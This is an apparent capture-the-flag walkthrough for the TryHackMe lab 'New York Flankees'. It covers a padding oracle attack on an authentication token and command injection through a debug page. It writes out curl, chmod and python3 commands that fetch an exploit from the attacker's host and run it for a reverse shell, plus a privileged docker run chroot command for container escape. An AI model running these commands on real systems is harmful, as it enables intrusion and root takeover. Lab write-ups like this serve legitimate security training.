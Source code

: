 # TryHackMe - New York Flankees Walkthrough

`
https://tryhackme.com/room/thenewyorkflankees
`

## Introduction :

This is a walkthrough for the TryHackMe room *New York Flankees*, which focuses on exploiting a web app via padding oracle, gaining reverse shell access to a Docker container, and escalating to root on the host using Docker misconfigurations.

## 🔍Reconnaissance  

Start with an Nmap scan:  
```
nmap -sC -sV -p- -T4 <ip> -Pn
```

![alt text](Screenshot/Screenshot_2025-06-24_07_07_56.png)  

Nmap ResultGot 2 Ports Open 22 & 8080. Let's visit the site to find any entry point into the system.

On the website, in the *Stefan Test* Menu it shows an error related to padding.

![padding](Screenshot/Screenshot_2025-06-24_06_54_48.png)  

Visit the source code where you will find javascript code related to authentication using token.  

![srccode](Screenshot/Screenshot_2025-06-24_07_00_16.png)

If you manually try to go to /api/debug/ with the Encrypted String "/39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4" , it will print "Custom authentication Success" and if you give wrong token it print "Decryption Error".

So the Backend is Decrypting the String and authenticating the user. May be the Encrypted String Contain Username and Password of the user. And also now we know there is padding error. So lets try to decrypt the string using padding oracle attack.

For this we will use a Github Tool *Padre*   
`https://github.com/glebarez/padre`

![padre](Screenshot/Screenshot_2025-06-24_07_10_53.png)  

This Tool will Crack the Encryption String for you and will provide username and password. -> Flag 1


## Flag 2

Try to login to the Site, Now will see a new Menu *Debug*, were you will get your -> Flag 2


## Flag 3

Now there is option to execute System commands directly. I tried to upload a python shell there using Burp Suite.  

![shell](Screenshot/Screenshot_2025-06-24_07_22_11.png)  

Simple Python PayloadI used a Extensions "Agartha" in Burp Suite which generate many payload for command execution if want to bypass the filters.

![agartha](Screenshot/Screenshot_2025-06-24_07_22_29.png)  

Because i have community version of Burp Suite, I used Turbo Intruder(extension in burp suite) to brute force all the payload generated by Agartha. 
I generated payload for following 3 command in Agartha :

```
curl http://<ip>/python-exploit.py -o /tmp/python-expliot.py
```  
```
chmod +x /tmp/python-expliot.py
```  
```
python3 /tmp/python-expliot.py
```  

After Executing the Payload I Got a Reverse shell, where you can see a .dockerenv file is present which suggest that it is a container.  
![revshell](Screenshot/Screenshot_2025-06-24_07_33_24.png)  

Let's go for third flag which is in the container, For that can go in the app Directory and search there you will find the -> Flag 3


## Final Flag

So, Now Final Flag. Because it is a docker container lets use a docker enumeration tool called deepce.

`https://github.com/stealthcopter/deepce`

Downloads this tool in the lab and execute the tool.  
It's output's will say that docker sock is writable -> Search for it on Hacktricks.

`
https://hacktricks.boitatech.com.br/linux-unix/privilege-escalation/docker-breakout
`  

Read it carefully. Now, Search for docker images in lab  
```
docker images
```

Use one of the image id of one of the docker images for the next command to be run:

```
docker run - privileged -it -v /:/mnt/ d5954e1d9fa4 chroot /mnt/ bash
```

You Got a root access to the Container. Got -> Flag 4


## ✅ Conclusion

This room gave solid experience with container breakout techniques and web vulnerabilities.  
Thanks for reading! Let me know if you have questions!

TryHackMe Profile : `https://tryhackme.com/p/Sumit003`  
LinkedIn : `https://www.linkedin.com/in/sumitmaurya03/`

tryhackme, cybersecurity, docker, infosec, ethical-hacking, walkthrough
